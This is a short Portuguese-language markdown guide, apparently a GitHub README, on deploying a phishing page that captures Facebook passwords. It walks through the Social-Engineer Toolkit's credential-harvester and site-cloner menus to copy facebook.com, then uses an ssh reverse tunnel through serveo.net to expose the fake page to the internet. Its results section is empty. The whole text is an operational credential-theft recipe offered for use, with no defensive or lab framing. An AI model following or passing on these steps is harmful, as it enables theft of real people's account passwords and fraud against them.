


# Subindo um phishing para captura de senhas do Facebook na internet

### Ferramentas

- Kali Linux
- setoolkit
- ssh

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.facebook.com

### Configurando o ssh
> ssh -R 80:localhost:80 serveo.net

### Resutados





